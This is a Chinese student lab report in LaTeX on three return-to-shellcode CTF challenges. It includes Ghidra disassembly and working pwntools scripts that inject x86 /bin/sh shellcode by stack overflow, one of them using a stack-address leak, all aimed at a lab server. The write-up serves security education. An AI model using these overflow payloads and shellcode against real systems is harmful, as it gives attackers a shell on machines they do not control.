\documentclass{article}
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
  language=Python,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,%设置行号位置none不显示行号
  %numberstyle=\tiny\courier, %设置行号大小
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  escapeinside=``,%逃逸字符(1左面的键),用于显示中文例如在代码中`中文...`
  tabsize=4,
  extendedchars=false %解决代码跨页时,章节标题,页眉等汉字不显示的问题
}

\usepackage[utf8]{inputenc}
\usepackage{float}
\date{2023/3/27}
\usepackage{ctex}
\usepackage{graphicx}
\title{Return2Shellcode}
\author{叶梓淳 520030910302}

\begin{document}

\maketitle

\section{ret2shellcode1}
    首先用Ghidra分析二进制文件得到反汇编代码。选取main函数对应代码如下:
    \begin{itemize}
        \item main函数
        \begin{lstlisting}{language=C}
undefined4 main(void)

{
  size_t __len;
  undefined local_3c [40];
  void *local_14;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdout,(char *)0x0,2,0);
  __len = getpagesize();
  local_14 = mmap((void *)0x7000000,__len,6,0x31,-1,0);
  printf("please input your secret:");
  read(0,local_14,200);
  printf("what\'s your name:");
  read(0,local_3c,200);
  return 1;
}

        \end{lstlisting}
    \end{itemize}
    其中,local\_14变量映射到了内存地址为0x7000000处的空间,并在后续read函数中被写入内容,之后另一个read函数在栈空间上的变量local\_3c里写入内容。因此,第一个想法便是在local\_14处写入shellcode,再在local\_3c处输入计算好长度的字符串造成缓冲区溢出,改变ret后eip的值为shellcode的起始地址,即0x7000000。\par
    首先需要知道local\_3c存放地址与ret后eip的存放地址的距离,逐步调试程序得到下图:
    \begin{figure}[H]
		\begin{center}
			
\includegraphics[width=0.8\textwidth]{1.png}
		\end{center}
    \end{figure}
    则local\_3c起始地址为0xffffdc04,ret后eip存放地址为0xffffdc4c,距离为0x48。首先尝试使用如下脚本:
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40000)

io.recvuntil("secret:")

shellcode=b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf
\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

io.send(shellcode)

io.recvuntil("name:")

io.send(b'a'*0x44 + p32(0x07000000))

io.interactive()

        \end{lstlisting}
    \end{itemize}
    运行脚本1,程序异常退出,查看汇编代码得知ebp存放地址为0xffffd38,在填充空间内,并且ebp地址的上一四字节存放值将赋值给ecx,最后将[ecx-0x4]处存放的值赋值给esp,esp的后4字节赋值给eip并运行。于是,将脚本修改为如下:
    \begin{itemize}
    	\item 脚本2
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40000)
io.recvuntil("secret:")

shellcode=b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf
\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

io.send(b'a'*0x10 + p32(0x07000014) + shellcode)

io.recvuntil("name:")

io.send(b'a'*0x30 + p32(0x07000014))

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    即把ecx值更改为0x07000014,这样esp值也便于修改,指向shellcode起始地址0x07000014,不会引发程序异常退出。\par
    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{2.png}
    	\end{center}
    \end{figure}


\section{ret2shellcode2}
    首先用Ghidra分析二进制文件得到反汇编代码,观察到只有\_start和\_exit两个函数,因此此题源码不是C代码,而直接是汇编代码写成。\_start函数如下:
    	\begin{lstlisting}{language=C}
   
      08048060 54              PUSH       ESP=>local_4
      08048061 68 9d 80        PUSH       _exit
               04 08
      08048066 31 c0           XOR        EAX,EAX
      08048068 31 db           XOR        EBX,EBX
      0804806a 31 c9           XOR        ECX,ECX
      0804806c 31 d2           XOR        EDX,EDX
      0804806e 68 43 54        PUSH       0x3a465443
               46 3a
      08048073 68 74 68        PUSH       0x20656874
               65 20
      08048078 68 61 72        PUSH       0x20747261
               74 20
      0804807d 68 73 20        PUSH       0x74732073
               73 74
      08048082 68 4c 65        PUSH       0x2774654c
               74 27
      08048087 89 e1           MOV        ECX,ESP
      08048089 b2 14           MOV        DL,0x14
      0804808b b3 01           MOV        BL,0x1
      0804808d b0 04           MOV        AL,0x4
      0804808f cd 80           INT        0x80
      08048091 31 db           XOR        EBX,EBX
      08048093 b2 3c           MOV        DL,0x3c
      08048095 b0 03           MOV        AL,0x3
      08048097 cd 80           INT        0x80
      08048099 83 c4 14        ADD        ESP,0x14
      0804809c c3              RET
      
    	\end{lstlisting}
    
    查阅系统调用的资料得知,程序执行了两个函数:
    	\begin{lstlisting}{language=C}
     write(1, esp, 0x14); // 从栈上读20个字节到标准输出(读内存)
     read(0, esp, 0x3c);  // 从标准输入写60个字节到栈上(写内存)
    	\end{lstlisting}
    结合保护程序:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{3.png}
    	\end{center}
    \end{figure}
    可以使用栈溢出,然后执行shellcode。shellcode只能写到栈上,但栈的地址未知。又因为write函数的存在,观察到ret指令前执行了ADD ESP,0x14,则可以在read输入时计算好padding长度(0x14)以及跳转到的eip地址(mov ECX,ESP),将最开始存入的esp值通过write函数打印出来,同时修改ret后的eip地址为shellcode地址。脚本如下:
    \begin{itemize}
    	\item 脚本3
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40001)

io.recvuntil("CTF:")

io.send(b'a'*0x14 + p32(0x08048087))

stack_address = u32(io.recv(4))

shellcode=b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf
\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

io.send(b'a'*0x14 + p32(stack_address + 0x14) + shellcode)

io.interactive()
    	\end{lstlisting}
    \end{itemize}
    运行结果如下,得到flag。
    \begin{figure}[H]
 	\begin{center}
	   		
\includegraphics[width=0.8\textwidth]{4.png}
	\end{center}
    \end{figure}
 

\section{ret2shellcode3}
    第三题相比第二题,write函数的系统调用变成了两条空指令,也就是无法通过write函数得到栈的地址。由于RELRO关闭,或许可以通过某种方式找到栈地址,调试时候发现栈底存的ESP的值和输出的值并不同,尝试无果,遂作罢。
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
 

\end{document}
